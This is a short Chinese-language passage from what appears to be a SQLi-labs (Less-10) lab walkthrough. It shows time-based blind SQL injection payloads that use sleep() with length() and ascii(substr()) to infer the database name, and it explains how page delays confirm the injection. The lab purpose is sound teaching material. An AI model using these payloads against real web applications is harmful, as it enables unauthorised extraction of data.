 页面有延迟，说明注入可行



+ 注入如下语句判断数据库长度

~~~ shell
?id=1"and if(length((select database()))>5,sleep(5),1)--+
判断数据库名长度
~~~

![Less-10_3](./img/Less-10_3.PNG)

页面延迟加载说明数据库名长度大于5，改变参数逐一确定数据库名长度



+ 注入如下语句逐一判断数据库名

~~~ shell
?id=1" and if(ascii(substr((select database()),1,1))=115,sleep(5),1)--+
~~~
